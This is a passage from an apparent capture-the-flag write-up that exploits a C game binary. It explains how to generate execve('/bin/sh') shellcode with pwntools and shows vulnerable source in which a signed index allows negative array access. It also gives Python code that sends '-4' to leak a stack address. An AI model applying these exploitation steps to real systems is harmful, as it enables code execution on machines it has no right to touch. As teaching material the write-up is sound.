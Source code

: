 Where `asm(shellcraft.amd64.linux.sh())` generates the x86_64 assembly instructions as raw bytes to call `execve("/bin/sh")` which would give us a shell. Now we need to jump to it, which is the tricky part.

The location of the stack is randomized on every run, so we will need to leak it. If we can leak some address on the stack, we can calculate the address of our buffer which contains the shellcode, and use that to jump to. The leak occurs in `chase`:

```c
void search(char* area, int dir) {
    scroll(area);
    if(dir == 2) {
        encounter();
        exit(0);
    }
}

void chase() {
    char* locs[] = {
        "The treeline ends, and you see beautiful mountains in the distance. No monkey here.\n",
        "Tall, thick trees surround you. You can't see a thing. Best to go back.\n",
        "You found the monkey! You continue your pursuit.\n",
        "You find a clearing with a cute lake, but nothing else. Turning around.\n",
    };
    scroll(txt[3]);
    int dir;
    while(1) {
        scanf("%d", &dir);
        if(dir > 3) {
            printf("Nice try, punk\n");
        } else {
            search(locs[dir], dir);
        }
    }
}
```

Remember that `scroll` is effectively a `puts` or `printf`. If we can control what is passed to `scroll`, we can print out and leak some information. Notice that `dir` is a value which we control, and that we can run it multiple times, so long as `dir != 2`. We can't access and leak anything past index 3 of `locs`, but `dir` is a *signed* integer. We can negative index `locs` to have a look at some stuff on the stack (since `locs` is also on the stack).

After a couple of segfaults with `locs[-1]`, `locs[-2]`, and `locs[-3]`, it turns out that at `locs[-4]` there is an address to somewhere on the stack, and we can print it out.

```python
r.recvuntil(b'Which way will you look? ')
r.sendline(b'-4')
leak = int.from_bytes(r.recvn(6, timeout=10), 'little')
log.info(f"{leak=:02x}")
```

I have no idea what it is actually pointing to and I don't care. Since I have a leak to a stable address on the stack, I can use gdb to find the offset of this address on the stack to the first byte of the first instruction which is also on the stack. This offset will always be the same.
